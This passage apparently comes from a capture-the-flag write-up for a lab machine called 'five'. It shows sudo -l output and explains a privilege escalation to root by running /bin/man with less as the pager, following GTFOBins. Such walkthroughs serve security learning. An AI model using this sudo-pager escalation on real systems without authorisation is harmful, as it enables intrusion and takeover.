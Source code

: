 ```bash

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Dec 29 21:57:08 2021 from 127.0.0.1
melisa@five:~$ 
```
Great we are now melisa!

## Shell as Root
We can see that `/bin/man` does not require password and GTFObins has stated we can exploit this to become root.

```bash
Melisa@five:~$ sudo -l
Matching Defaults entries for melisa on five:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm, /bin/clear

```
## Attempt 1
However running `sudo -u root /bin/man /bin/man`
This is because as stated in the GTFObin page 

> This invokes the default pager, which is likely to be 
> [`less`](https://gtfobins.github.io/gtfobins/less/), other functions may apply.

As we can see  reading from the man pages, the default pager is set to pager. 
```bash
   Controlling formatted output
       -P pager, --pager=pager
              Specify which output pager to use.  By default, man uses pager, falling back to cat if pager is not found or is not executable.  This option  overrides
              the $MANPAGER environment variable, which in turn overrides the $PAGER environment variable.  It is not used in conjunction with -f or -k.

              The  value  may be a simple command name or a command with arguments, and may use shell quoting (backslashes, single quotes, or double quotes).  It may
              not use pipes to connect multiple commands; if you need that, use a wrapper script, which may take the file to display either  as  an  argument  or  on
              standard input.
```
So instead, we have to use the `less` command as a pager and exploit it to get it working.

```bash
melisa@five:~$ which less
/usr/bin/less

melisa@five:/tmp$ sudo -u root /bin/man -P /usr/bin/less man
```
